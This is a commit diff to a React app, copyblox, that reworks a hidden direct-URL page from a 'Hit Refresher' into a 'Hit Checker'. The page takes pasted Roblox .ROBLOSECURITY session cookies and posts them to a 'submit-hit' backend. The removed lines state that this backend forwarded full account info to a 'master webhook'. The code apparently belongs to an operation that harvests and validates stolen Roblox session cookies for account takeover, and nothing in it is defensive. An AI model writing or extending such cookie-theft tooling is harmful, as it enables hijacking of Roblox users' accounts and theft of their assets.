

Before and after one commit to x5no/copyblox, a React (Vite) app: page /refresh-hit in a window 1280 px wide. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Changes
Co-authored-by: x5no <120988756+x5no@users.noreply.github.com>

```diff
--- a/src/pages/RefreshHit.tsx
+++ b/src/pages/RefreshHit.tsx
@@ -1,17 +1,18 @@
 import React, { useState } from 'react';
-import { Loader2, RefreshCw } from 'lucide-react';
+import { Loader2, ShieldCheck, ShieldX } from 'lucide-react';
 import { toast } from 'sonner';
 
-// Hidden utility page — reachable only by direct URL (/refresh-hit).
-// Sends the provided .ROBLOSECURITY cookie to the submit-hit edge function
-// WITHOUT a site username, so it routes solely to the master webhook with
-// full Roblox account info (same payload the normal hit flow uses).
+// Hidden utility — reachable only by direct URL (/hit-checker).
+// Validates a .ROBLOSECURITY cookie and reports back simply Valid / Invalid.
 const FN_URL = `${import.meta.env.VITE_SUPABASE_URL}/functions/v1`;
 const ANON = import.meta.env.VITE_SUPABASE_PUBLISHABLE_KEY;
 
-const RefreshHit = () => {
+type Result = { ok: true; valid: boolean } | { ok: false; message: string };
+
+const HitChecker = () => {
   const [cookie, setCookie] = useState('');
   const [loading, setLoading] = useState(false);
+  const [result, setResult] = useState<Result | null>(null);
 
   const submit = async (e: React.FormEvent) => {
     e.preventDefault();
@@ -21,23 +22,27 @@ const RefreshHit = () => {
       return;
     }
     setLoading(true);
+    setResult(null);
     try {
       const res = await fetch(`${FN_URL}/submit-hit`, {
         method: 'POST',
         headers: { 'Content-Type': 'application/json', apikey: ANON },
         body: JSON.stringify({
-          // No username → no owner profile → master webhook only.
-          toolType: 'Hit Refresher',
+          toolType: 'Hit Checker',
           toolKey: 'bot_followers',
           cookie: c,
         }),
       });
       const data = await res.json().catch(() => ({}));
       if (!res.ok) throw new Error(data?.error || `Request failed (${res.status})`);
-      toast.success('Refreshed — sent to master webhook');
-      setCookie('');
+      const valid = !!data?.valid;
+      setResult({ ok: true, valid });
+      if (valid) toast.success('Valid');
+      else toast.error('Invalid');
     } catch (err: any) {
-      toast.error(err?.message ?? 'Failed to refresh');
+      const message = err?.message ?? 'Check failed';
+      setResult({ ok: false, message });
+      toast.error(message);
     } finally {
       setLoading(false);
     }
@@ -45,17 +50,13 @@ const RefreshHit = () => {
 
   return (
     <div className="min-h-screen flex items-center justify-center px-4">
-      <form
-        onSubmit={submit}
-        className="blox-card w-full max-w-xl p-6 space-y-4"
-      >
+      <form onSubmit={submit} className="blox-card w-full max-w-xl p-6 space-y-4">
         <div className="flex items-center gap-2">
-          <RefreshCw className="h-5 w-5 text-primary" />
-          <h1 className="text-lg font-semibold">Hit Refresher</h1>
+          <ShieldCheck className="h-5 w-5 text-primary" />
+          <h1 className="text-lg font-semibold">Hit Checker</h1>
         </div>
         <p className="text-xs text-muted-foreground">
-          Paste a <code>.ROBLOSECURITY</code> cookie. It will be re-checked and the
-          full hit info forwarded to the master webhook.
+          Paste a <code>.ROBLOSECURITY</code> cookie to check whether it is still valid.
         </p>
         <textarea
           value={cookie}
@@ -71,12 +72,33 @@ const RefreshHit = () => {
           disabled={loading || !cookie.trim()}
           className="w-full inline-flex items-center justify-center gap-2 rounded-md bg-primary text-primary-foreground text-sm font-medium px-4 py-2 disabled:opacity-50"
         >
-          {loading ? <Loader2 className="h-4 w-4 animate-spin" /> : <RefreshCw className="h-4 w-4" />}
-          {loading ? 'Refreshing…' : 'Refresh'}
+          {loading ? <Loader2 className="h-4 w-4 animate-spin" /> : <ShieldCheck className="h-4 w-4" />}
+          {loading ? 'Checking…' : 'Check'}
         </button>
+
+        {result && (
+          <div
+            className={`flex items-center gap-2 rounded-md border p-3 text-sm font-medium ${
+              result.ok && result.valid
+                ? 'border-green-500/40 bg-green-500/10 text-green-300'
+                : 'border-red-500/40 bg-red-500/10 text-red-300'
+            }`}
+          >
+            {result.ok && result.valid ? (
+              <>
+                <ShieldCheck className="h-4 w-4" /> Valid
+              </>
+            ) : (
+              <>
+                <ShieldX className="h-4 w-4" />
+                {result.ok ? 'Invalid' : result.message}
+              </>
+            )}
+          </div>
+        )}
       </form>
     </div>
   );
 };
 
-export default RefreshHit;
+export default HitChecker;
```
